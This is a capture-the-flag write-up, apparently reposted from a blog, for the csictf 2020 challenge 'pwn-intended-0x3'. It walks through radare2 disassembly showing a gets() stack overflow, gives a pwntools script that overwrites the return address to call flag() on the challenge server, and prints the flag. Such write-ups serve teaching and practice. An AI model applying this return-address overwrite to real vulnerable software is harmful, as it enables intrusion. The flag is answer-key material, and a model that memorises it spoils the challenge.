 This problem requires that you call a `flag()` function which reads the flag.
Looking at the disassembly, we can see another buffer, this time of size
`0x20` (32 in decimal).  
```r2  
┌ 104: int main (int argc, char **argv, char **envp);  
│           ; var char *s @ rbp-0x20  
│           0x00401166      55             push rbp  
│           0x00401167      4889e5         mov rbp, rsp  
│           0x0040116a      4883ec20       sub rsp, 0x20  
│           ; <redacted>, Setup stdio and print some text  
│           0x004011b6      488d45e0       lea rax, [s]  
│           0x004011ba      4889c7         mov rdi, rax                ; char
*s  
│           0x004011bd      b800000000     mov eax, 0  
│           0x004011c2      e899feffff     call sym.imp.gets           ;[3] ;
char *gets(char *s)  
│           0x004011c7      b800000000     mov eax, 0  
│           0x004011cc      c9             leave  
└           0x004011cd      c3             ret  
┌ 38: sym.flag ();  
│           0x004011ce      55             push rbp  
│           ; <redacted>, print the flag  
└           0x004011ef      e87cfeffff     call sym.imp.exit           ;[5] ;
void exit(int status)  
```

The exploit here is quite clear, we need to overwrite the return pointer of
the `main()` function to `0x004011ce` to run the `flag()` function. To do so,
we first need to send 32 bytes to fill up the input buffer, then send 8
bytes,\* and then the address `0x004011ce` as `\xce\x11@\x00\x00\x00\x00\x00`
(the `@` is just `\x40`).

\* One can find this out by debugging with [radare](https://www.radare.org/r/)
which will was described in [this](https://theavid.dev/dmoj-ctf-20-binexp)
blog post. It is *probably* for alignment, but to find out exactly why you'll
have to become a [glibc
librarian](https://www.gnu.org/software/libc/sources.html).

With that, our explain script, once again using
[pwntools](https://github.com/Gallopsled/pwntools/), can be seen below. We use
`p64` to convert the 64-bit address to the bytes described above.  
```py  
from pwn import *

p = process("./pwn-intended-0x3")  
p = remote("chall.csivit.com", 30013)  # Remove for local testing  
p.sendline(b"A" * (32 + 8) + p64(0x4011ce))  
p.interactive()  
```

And we get our flag, `csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}`, nice!

Original writeup (https://fluix.dev/blog/csictf-2020-pwn-intended/).